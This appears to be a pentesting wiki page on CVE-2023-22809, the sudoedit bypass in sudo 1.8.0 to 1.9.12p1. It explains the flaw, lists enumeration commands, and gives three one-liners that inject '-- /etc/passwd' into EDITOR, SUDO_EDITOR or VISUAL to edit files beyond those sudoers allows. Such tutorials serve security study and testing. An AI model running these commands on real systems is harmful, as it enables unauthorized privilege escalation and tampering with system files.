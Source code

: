 ```yaml
---
description: CVE-2023-22809
---
```


# Sudoedit Bypass

## Theory

Sudo uses user-provided environment variables to let its users select their editor of choice. The content of these variables extends the actual command passed to the sudo_edit() function. However, the
latter relies on the presence of the `--` argument to determine the list of files to edit. The injection of an extra `--` argument in one of the authorized environment variables can alter this list and lead to privilege escalation by editing any other file with privileges of the RunAs user. This issue occurs after the sudoers policy validation. - [Synacktiv](https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf)  

The vulnerability affect sudo versions **1.8.0** to **1.9.12p1**.  
  
## Practice

{% tabs %}
{% tab title="Enum" %}
To exploit, sudo version must be vulnerable (**1.8.0** to **1.9.12p1**)
```bash
$ sudo -V
Sudo version 1.8.0
```

You must be able to run sudoedit with sudo
```bash
$ sudo -l
[sudo] password for user:
Matching Defaults entries for user on vulnserver:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User user may run the following commands on vulnserver:
    (ALL:ALL) sudoedit /etc/custom/service.conf
```

And env_delete shouldn't be set to affected variables:
```bash
env_delete+="SUDO_EDITOR VISUAL EDITOR"
```

{% endtab %}

{% tab title="Exploit" %}
To exploit it, we may use one of the following commands:
```bash
EDITOR='vim -- /etc/passwd' sudoedit /etc/custom/service.conf

SUDO_EDITOR='vim -- /etc/passwd' sudoedit /etc/custom/service.conf

VISUAL='vim -- /etc/passwd' sudoedit /etc/custom/service.conf
```
{% endtab %}
{% endtabs %}

### References

{% embed url="https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf" %}
